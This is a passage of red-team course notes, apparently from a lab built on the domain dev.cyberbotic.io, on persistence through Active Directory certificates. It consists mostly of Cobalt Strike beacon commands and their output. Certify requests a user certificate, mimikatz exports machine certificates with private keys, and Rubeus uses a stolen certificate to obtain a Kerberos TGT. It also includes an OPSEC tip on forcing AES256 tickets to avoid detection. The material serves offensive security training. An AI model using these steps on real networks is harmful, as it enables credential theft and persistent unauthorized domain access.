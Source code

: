 {% hint style="danger" %}
**OPSEC**\
\
You may notice that this will request RC4 tickets by default. &#x20;

You can force the use of AES256 by including the `/enctype:aes256` parameter.
{% endhint %}

In some cases, user(s) may not have a certificate in their store.

**If this is the case, and the user does not have a certificate in their store, we can just request one with Certify:**

{% code overflow="wrap" %}
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```
{% endcode %}

### Computer Persistence

**The same can be applied to computer accounts, but we must elevate to extract those certificates:**

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export

    Public export  : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.der'
    Private export : OK - 'local_machine_My_0_wkstn-1.dev.cyberbotic.io.pfx'
```

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:MIINCA[...]IH0A== /password:mimikatz /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=wkstn-1.dev.cyberbotic.io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'dev.cyberbotic.io\WKSTN-1$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

    doIGYD[...]5pbw==

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  WKSTN-1$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/7/2022 12:06:02 PM
  EndTime                  :  9/7/2022 10:06:02 PM
  RenewTill                :  9/14/2022 12:06:02 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  6DV6vQB5lRoCz84qmRqt0X6UdIzzdQiX+y0IwwDrHlc=
```